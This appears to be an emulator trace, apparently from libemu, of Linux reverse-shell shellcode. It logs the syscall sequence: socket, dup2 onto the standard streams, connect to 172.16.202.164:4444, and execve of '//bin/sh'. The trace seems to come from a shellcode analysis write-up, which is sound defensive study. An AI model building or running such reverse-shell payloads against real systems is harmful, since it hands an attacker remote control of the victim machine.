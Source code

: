[emu 0x0x53e1f0 debug ] B00B                            mov al,0xb
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417042
[emu 0x0x53e1f0 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] CD80                            int 0x80
execve
int execve (const char *dateiname=00416fa6={//bin/sh}, const char * argv[], const char *envp[]);
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417044
[emu 0x0x53e1f0 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 0000                            add [eax],al
cpu error error accessing 0x00000004 not mapped

stepcount 42
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417046
[emu 0x0x53e1f0 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = -1530261332 (host=172.16.202.164);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
{%endhighlight%}